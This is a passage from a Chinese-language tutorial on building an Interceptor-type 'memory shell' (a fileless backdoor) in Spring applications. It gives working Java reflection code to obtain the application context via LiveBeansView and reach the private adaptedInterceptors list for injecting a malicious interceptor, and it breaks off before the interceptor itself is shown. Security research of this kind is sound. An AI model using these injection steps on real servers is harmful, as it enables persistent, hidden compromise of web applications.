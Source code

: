 然后遍历调用`Interceptor`中的`preHandle()`拦截方法。
因此当一个`Request`发送到`Spring`应用时，大致会经过如下几个层面才会进入`Controller`层

```java
HttpRequest --> Filter --> DispactherServlet --> Interceptor --> Controller
```

### 5.3.4、Interceptor型内存马实现思路

通过以上分析，`Interceptor`实际上是可以拦截所有想到达`Controller`的请求的。下面的问题就是如何动态地注册一个恶意的`Interceptor`了。由于`Interceptor`和`Filter`有一定的相似之处，因此我们可以仿照`Filter`型内存马的实现思路

- 获取当前运行环境的上下文
- 实现恶意`Interceptor`
- 注入恶意`Interceptor`

### 5.3.5、获取环境上下文

在`Controller`型内存马中，给出了四种获取`Spring`上下文`ApplicationContext`的方法。下面我们还可以通过反射获取`LiveBeansView`类的`applicationContexts` 属性来获取上下文。

```java
// 1. 反射 org.springframework.context.support.LiveBeansView 类 applicationContexts 属性
java.lang.reflect.Field filed = Class.forName("org.springframework.context.support.LiveBeansView").getDeclaredField("applicationContexts");
// 2. 属性被 private 修饰，所以 setAccessible true
filed.setAccessible(true);
// 3. 获取一个 ApplicationContext 实例
org.springframework.web.context.WebApplicationContext context =(org.springframework.web.context.WebApplicationContext) ((java.util.LinkedHashSet)filed.get(null)).iterator().next();
```

`org.springframework.context.support.LiveBeansView `类在 `spring-context 3.2.x `版本（现在最新版本是 `5.3.x`）才加入其中，所以比较低版本的 `spring` 无法通过此方法获得 `ApplicationContext` 的实例。

获取**adaptedInterceptor属性值**
获得 `ApplicationContext` 实例后，还需要知道 `org.springframework.web.servlet.handler.AbstractHandlerMapping` 类实例的 `bean name` 叫什么。
![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712904274313-fac41adc-d9bb-4d2f-b2d6-d59520a42854.png)
我们可以通过`ApplicationContext`上下文来获取`AbstractHandlerMapping`，进而反射获取`adaptedInterceptors`属性值

```java
org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = (org.springframework.web.servlet.handler.AbstractHandlerMapping)context.getBean("requestMappingHandlerMapping");
java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
field.setAccessible(true);
java.util.ArrayList<Object> adaptedInterceptors = (java.util.ArrayList<Object>)field.get(abstractHandlerMapping);
```

### 5.4.6、实现恶意的Interceptor

这里选择继承`HandlerInterceptor`类，并重写其`preHandle`方法
